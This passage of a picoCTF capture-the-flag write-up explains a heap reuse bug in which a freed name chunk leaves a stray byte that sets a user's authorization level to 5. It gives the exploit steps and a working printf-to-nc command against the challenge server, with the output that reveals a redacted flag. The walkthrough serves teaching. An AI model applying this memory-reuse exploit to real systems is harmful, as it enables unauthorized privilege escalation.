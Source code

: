 ## Exploitation

What do you think would happen if you were to free a name where the 9th (and final) byte was `'\x05'`? What would happen when you then allocated a new `struct user` (size 16)?

We learned above that freeing "small" blocks of memory will cause that memory to be re-used to service future `malloc` requests in a (LIFO) last-in-first-out pattern. In this case, the chunk containing the `name` string would get re-used for the very next `malloc` request for 24 bytes or less. The first 8 bytes of that data block would have been modified to contain a pointer to next free chunk in the corresponding fastbin, however the remaining data would be untouched. As a result, the "level" field, after allocation, would contain the same `'\x05'` value that was present in the original string. We can use this to "trick" the program into thinking we have level 5 access.


Steps:

1. "login" with a name that is exactly 9 bytes long, and the last byte *MUST* be `'\x05'`.
2. "reset" (this frees the name, but not the `struct user`, which is abandoned/leaked)
3. "login" again, this time with any name. The first allocation (`malloc(sizeof(struct user)`) will be serviced by the same memory as the previously freed "name" variable. The first 8 bytes will be cleared, but the 9th byte will remain set. (The remaining bytes will all be zero because they remain untouched and `malloc()` originally got them that way from the operating system).
4. call "get-flag", which will now print the flag because your authorization level will be set to 5.

Let's try it:

```
$ printf "login 01234567\x5\nreset\nlogin a\nshow\nget-flag\n" | nc 2018shell.picoctf.com 45906
Available commands:
        show - show your current user and authorization level
        login [name] - log in as [name]
        set-auth [level] - set your authorization level (must be below 5)
        get-flag - print the flag (requires authorization level 5)
        reset - log out and reset authorization level
        quit - exit the program

Enter your command:
> Logged in as "01234567"

Enter your command:
> Logged out!

Enter your command:
> Logged in as "a"

Enter your command:
> Logged in as a [5]

Enter your command:
> picoCTF{===REDACTED===}
```
{:.contains-term}
